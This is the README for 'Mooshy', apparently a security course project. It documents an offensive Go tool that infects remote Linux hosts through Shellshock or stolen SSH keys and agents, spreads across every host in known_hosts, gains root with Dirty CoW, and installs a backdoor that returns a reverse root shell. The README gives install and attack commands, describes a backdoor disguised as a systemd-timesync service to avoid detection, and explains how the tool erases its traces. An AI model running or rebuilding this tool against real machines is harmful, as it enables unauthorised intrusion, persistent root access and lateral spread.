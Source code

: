 [![Build Status](https://travis-ci.org/rvolosatovs/mooshy.svg?branch=master)](https://travis-ci.org/rvolosatovs/mooshy)

# Mooshy

## Description
Mooshy is a tool that automates the infection and execution of arbitrary code on remote Linux systems. It infects the victim machine exploiting either a [ShellShock Bash vulnerability](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) or by using a password-less SSH key or a running SSH agent. Once access to the machine is granted, [Dirty CoW](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) exploit is used to start a SUID root shell, through which a backdoor is installed on the system, masked as a systemd service file.

[![asciicast](https://asciinema.org/a/176277.png)](https://asciinema.org/a/176277)

## Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

## Development:
```sh
    make
```

## Generation of the report:
```sh
    make report
```

\pagebreak

## Usage:
_Default values of some variables are environment-dependent_
```
    $ mooshy -help                                                       
    Usage of mooshy:
        -addr string
          	The lucky guy(in case of Shell Shock - endpoint)
        -moosh string
          	Path to moosh. If empty - uses the one from https://github.com/rvolosatovs/mooshy/releases/latest .
        -shellShock
          	Use Shell Shock for the infection
        -ssh
          	Use SSH for the infection
        -sshAgent string
          	Path to SSH agent socket (default "/run/user/1000/gnupg/S.gpg-agent.ssh")
        -sshKey string
          	Path to (passwordless) SSH private key (default "/home/rvolosatovs/.ssh/id_rsa")
        -sshKnown string
          	Path to SSH known_hosts file (default "/home/rvolosatovs/.ssh/known_hosts")
        -sshUser string
          	Username to connect as(e.g. for SSH) (default "averagejoe")
        -token string
          	Github token to use
        -useSSHAgent
          	Whether or not use SSH agent
        -useSSHKey
          	Whether or not use (passwordless) SSH private key
        -useSSHKnown
          	Whether or not to try to infect all hosts in SSH known_hosts file
```

\pagebreak

# Mechanism of action
The tool operates in 2 modes - infection and execution.

## Infection mode
```sh
   mooshy -ssh -useSSHAgent -sshUser averagejoe -addr 192.168.56.102 # Specific SSH host
   mooshy -ssh -useSSHAgent -useSSHKnown -sshKnown known_hosts -sshUser averagejoe # SSH known_hosts
   mooshy -shellShock -addr http://192.168.56.102/cgi-bin/index.cgi # ShellShock
```
- Connects to the victim machine(s) using either of:
    - SSH:
        - Connects to the `addr` specified and/or all hosts in `known_hosts` file, using either a running SSH agent(with `SSH_AUTH_SOCK` set in environment) or using a password-less private key, which provides access to the machine(s).
        - Copies the `moosh` binary to each victim using SFTP.
    - Shellshock:
        - Sends a GET request to `addr` specified, with embedded script in `User-Agent` header, which downloads `moosh` binary using `curl` and makes it executable.
- Executes the `moosh` binary on the victim machine, which:
    - Exploits [Linux kernel vulnerability(CVE-2016-5195)](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) (PoC uses vanilla Ubuntu 16.04 LTS VM) to overwrite a SUID binary(defaults `/usr/bin/passwd`) by shellcode, which sets `/proc/sys/vm/dirty_writeback_centisecs` to `0` and `exec`s `/bin/bash` with `root` privileges(it's a SUID binary owned by `root`). Note, that setting `/proc/sys/vm/dirty_writeback_centisecs` to `0` is required to prevent kernel panic, which would otherwise occur shortly after the execution of exploit due to an invalid state reached, which is triggered by the exploit.
    - Using the "suid root shell" installs the backdoor on the system.
    - Creates, enables and starts a `systemd-timesync` systemd service, which launches the backdoor service.
    - Restores the contents of the original binary in it's location and removes all temporary files.

\pagebreak

## Execution mode
```sh
   mooshy -addr 192.168.56.102:22 # The port should be any open port
```
- Connects to the backdoor running on the infected victim and returns a reverse `root` shell.

\pagebreak

# Attack analysis

## Dirty CoW exploit
>  A race condition was found in the way Linux kernel's memory subsystem
>  handled breakage of the read only private mappings COW situation on
>  write access.
>
>  An unprivileged local user could use this flaw to gain
>  write access to otherwise read only memory mappings and thus increase
>  their privileges on the system. ([Source](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

## Shellshock
> A flaw was found in the way Bash evaluated certain specially crafted environment variables. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue. ([Source](https://access.redhat.com/security/cve/cve-2014-6271))

## Infection
Once root access is gained through the Dirty CoW exploit, the machine is infected with a persistent backdoor. The binary code for the backdoor is embedded in the `moosh` binary. It creates and enables a new systemd service in `/lib/systemd/system/systemd-timesync.service` and installs the binary as `/lib/sytemd/systemd-timesync`. This name was chosen for its similarity to the existing `systemd-timesyncd` service, to hopefully avoid detection from unsuspecting users. All traces of the exploit are then erased, leaving only the newly installed service. 

\pagebreak

## Backdoor
The `systemd-timesync` service creates a raw socket that listens to TCP requests. The raw socket allows the backdoor to listen on all TCP ports with a single socket, while the TCP payload is still handled by the kernel so that normal service by the victim machine is unaffected. When a packet with a specific payload is received, it triggers the backdoor to open a reverse shell to the attacker's machine. The payload consists of a sentinel value, followed by the port number on which the attacker is listening for a reverse shell connection.

The backdoor then opens a new TCP connection to the source IP of the triggering packet, using the specified port. Since the backdoor is run as a systemd service, it has not tty attached. Instead, it uses the `script` executable, which is installed on linux by default, to create a pty and connect it to `/bin/bash`. This opens a fully interactive root shell on the victim's machine, whose input and output are then connected to the opened TCP connection. 

## Buffer overflow
A buffer overflow occurs when more data is put in a buffer than it can hold, leading to overwrite adjacent memory locations being overwritten. This problem can be abused to alter the return address and inject code on the stack.

To illustrate this concept, a vulnerable HTTP daemon (`hHTTPd`) is supplied as a proof of concept. It stores the HTTP request and reflects the path back to the client in the message body. However, if the user requests a path that is too long, it overflows the request buffer. This vulnerability is exploited to gain code execution. _At the moment, this is not implemented._

# Technical setup
The PoC uses vanilla Ubuntu 16.04 LTS with [Bash version 4.3-6](https://ubuntu.pkgs.org/14.04/ubuntu-main-amd64/bash_4.3-6ubuntu1_amd64.deb.html), OpenSSH service and Apache2 web server running.
